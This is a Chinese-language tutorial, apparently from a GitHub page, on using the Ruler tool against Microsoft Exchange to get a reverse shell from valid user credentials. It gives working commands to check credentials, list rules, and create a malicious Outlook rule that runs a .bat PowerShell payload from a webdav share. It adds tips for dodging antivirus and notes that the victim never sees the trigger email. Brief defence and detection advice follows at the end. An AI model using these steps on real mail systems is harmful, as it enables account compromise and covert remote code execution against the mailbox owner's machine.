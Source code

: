 ##Exchange服务


###前期准备
* 安装[golang](https://github.com/golang/) 
* 安装[ruler](https://github.com/sensepost/ruler) 
* 有效的域用户凭证

-------
###简介
Ruler是一款交互式的远程Exchange服务管理工具，其使用MAPI/HTTP或RPC/HTTP协议。主要是用来利用Outlook客户端的一些特性获取shell。

Ruler会尝试与Exchange服务连接，并使用Autodiscover服务来发现相关信息。

-------
###Ruler可以用来做些什么

Ruler可以用来做很多事情，下面将会列出它的主要功能，也将展示一种利用Ruler反弹shell的方法，仅需要一个有效的用户名和密码来登录Outlook就可以办到。这也是前面为什么我们要碰撞出有效的账户来，这对之后反弹shell非常有用。

办公少不了需要用邮箱，因为他们发文件发通知等需要。

* 枚举有效用户
* 创建新的恶意邮件规则
* 转储全局地址列表(GAL)
* 通过表单执行VBScript
* 通过Outlook主页执行VBScript

这些功能是不是很奈斯

**进攻前的检查**

关于如何查找邮件结构、添加dns记录等，这里就不详细概述了，留给读者去动手探索。

一旦我们知道了邮件的结构、如何添加了dns记录等信息，我们就可以从exchange服务器检查开始，检查我们是否能够与其通信，以及是否能够验证并打开邮箱。

下面的示例主要取决于你如何编译Ruler，不同操作可能有所不同。

`./ruler --email test@lab.local --verbose check`

执行后会提示输入密码，如果凭证有效，回看到提示说邮箱登录成功。


**查看现有规则**

`./ruler --email test@lab.local display`


**设置一个Empire会话监听**
这里不会深入探讨如何建立一个Empire或它的listener，你点击[chryzsh](https://chryzsh.gitbooks.io/darthsidious/content/responder/relay.html) 了解。我们应该生成一个.bat的powershell文件，并将其托管到webdav服务器上，而不是使用一个单例程序。

网上有很多关于如何快速建立webdav服务器的指南，细节请Google。

其价值在于可以通过压缩.bat文件，再通过webdav目录来调用，用于逃避AV检测。

以后我会更新这个方法。

**创建规则**


```
./ruler --email test@lab.local add --name test --trigger shell --location "\\\\webdav.test\\webdav\shell.bat" --send
```
这个命令的作用是发送一封电子邮件到用户邮箱并触发我们的规则。

值得一提的是用户并不会看到这个邮件，因为它会自动删除的，所以我们不必担心被发现。

**删除&清理规则**
一旦执行将删除邮箱规则！！！

```
./ruler --email test@lab.local delete --name test
```

**如何防御Ruler的攻击**

1. 为所有用户启用多因素身份验证，特别是那些具有管理权限的用户。
2. 经常检查你的账户是否有非法活动。手动或者使用安全监视工具都行。防御可能没办法做到实时，但也回尽快发现，减少损失。

**如何检测Ruler的攻击**
最简单的方法是使用微软编写的检查脚本（运行需要管理员权限）

```
https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1
```
**写在最后**

Ruler是一个可以在网络上找到的用来反弹shell的好工具,这里介绍到的知识冰山一角,建议读者自行去探索该工具,也可以更好的理解和体验其强大之处。







